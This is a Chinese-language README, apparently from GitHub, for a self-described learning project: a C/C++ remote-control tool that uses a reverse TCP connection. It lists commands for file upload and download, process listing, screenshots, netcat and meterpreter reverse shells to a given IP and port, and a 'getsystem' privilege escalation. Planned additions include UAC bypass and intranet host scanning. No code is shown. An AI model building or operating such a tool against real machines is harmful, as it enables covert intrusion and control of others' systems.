 ### Simple Remote
一个用c/c++写的基于tcp通信的简单远控，写此项目主要是将自己所学的知识融会贯通，仅此而已。

代码健壮性不是非常的高，在输入一些非法的命令格式的时候，有可能会引起崩溃，我也懒得处理了。毕竟这不是我写这个项目的重点。

视频演示: <a href="https://www.bilibili.com/video/BV1aq4y1e7nU">BV1aq4y1e7nU</a>

### 建立连接

本项目分为客户端（Client.exe） 和服务器端（Server.exe）。因为使用的是反向连接方式，所以必须先启动Server.exe

启动Server.exe，格式 `Server.exe port`。示例`Server.exe 3333`，将会监听`3333`端口

启动Client.exe，格式  `Client.exe ip port`。示例`Client.exe 192.168.0.1 3333`。将会连接192.168.0.1的3333端口

 <img src="image\3.jpg">


### 支持功能
#### help
查看支持命令, 格式 `help`

 <img src="image\11.jpg">

#### upload
上传本地文件到对方机器。格式  `upload filepath`。
<img src="image\1.jpg">

#### download

下载对方机器文件到本地。格式  `download filepath`。
<img src="image\2.jpg">

#### ps
列出正在运行的进程，格式 `ps`
<img src="image\4.jpg">

#### getpid
获取当前进程pid，格式 `getpid`

 <img src="image\5.jpg">

#### drive
列出盘符，格式 `drive`

 <img src="image\6.jpg">

#### screen
屏幕截图，格式 `screen`
<img src="image\7.jpg">

#### nc
反弹nc，格式 `nc ip port`

 <img src="image\8.jpg">

#### msf
反弹msf，支持`windows/meterpreter/reverse_tcp`，`windows/x64/meterpreter/reverse_tcp`。如果使用x64需要将程序生成x64后方可使用，并且需要等待差不多一分钟才能反弹成功。格式 `msf ip port`

 <img src="image\9.jpg">

#### getsystem
从管理员提权到system，格式 `getsystem`，如果提权成功会打开一个新窗口

 <img src="image\10.jpg">

### 待完善
1.~~反弹msf功能，因为在client.exe启动了一个msf的子线程，所以msf退出或者client.exe退出。都会导致对方程序崩溃，后续会考虑使用傀儡进程~~（已完成）

2.流量层进行加密

3.添加bypassuac功能

4.添加端口转发功能

5.添加内网存活主机扫描功能

6.先阶段只能连接一个客户端，后续考虑支持多个客户端 （最后考虑）

7.支持交互式shell （最后考虑）

